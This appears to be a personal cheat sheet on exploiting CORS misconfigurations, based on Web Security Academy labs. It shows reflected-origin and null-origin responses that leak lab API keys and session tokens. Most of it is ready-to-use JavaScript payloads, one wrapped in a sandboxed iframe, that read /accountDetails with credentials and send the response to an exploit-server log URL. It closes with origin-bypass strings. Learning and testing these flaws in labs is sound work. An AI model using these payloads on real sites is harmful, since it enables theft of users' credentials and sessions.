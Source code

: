 # CORS 

if you open two taps in your website { can this tab take info form next tab }   



(1)    you put in request:

Origin: http://0x-zero-day.github.io/

---------------------------------------------------

and if the response have :
 
-HTTP/2 200 OK 
- Access-Control-Allow-Origin: http://0x-zero-day.github.io/    <======  --important--
- Access-Control-Allow-Credentials: true                        <======  --important--
- Content-Type: application/json; charset=utf-8
- X-Frame-Options: SAMEORIGIN
- Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "ofnIfMYpkZFNT2hjTpYSaDtMjxHB3d3k",
  "sessions": [
    "Wqvgdu6rWtyhShoXzqeCmeqSHkyIAzW0"
  ]
} 


and if the data in response is sensitive so it a valid vuln  

------------------------------------------------------- 
after you found it you put this script to get all response 


<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>


============================================================

(1)    you put in request:

Origin: null



---------------------------------------------------

and if the response have :


HTTP/2 200 OK
Access-Control-Allow-Origin: null                   <====
Access-Control-Allow-Credentials: true              <====
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 149

{
  "username": "wiener",
  "email": "",
  "apikey": "kVwKPXJYdpCcNl8bZmYislrlblf3xAT8",
  "sessions": [
    "cZveYZ7ojyb8lIX4gsUHLACmTmKfYRat"
  ]
}

-----------------------------------------------------------
and if the data in response is sensitive so it a valid vuln  

------------------------------------------------------- 
after you found it you put this script to get all response 



<iframe sandbox="allow-scripts allow-same-origin allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0ab7001704d5b2e081e51b930074007e.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://exploit-0a2800320414b29681e01ab4010a0033.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>

--------------------------------------------------------

Access-Control-Allow-Origin: null                  
Access-Control-Allow-Credentials: true 
  

if this headers not appear when you write :        origin: hacker.com
 try:
hacker.com?.example.com
hacker.com%23@www.example.com 



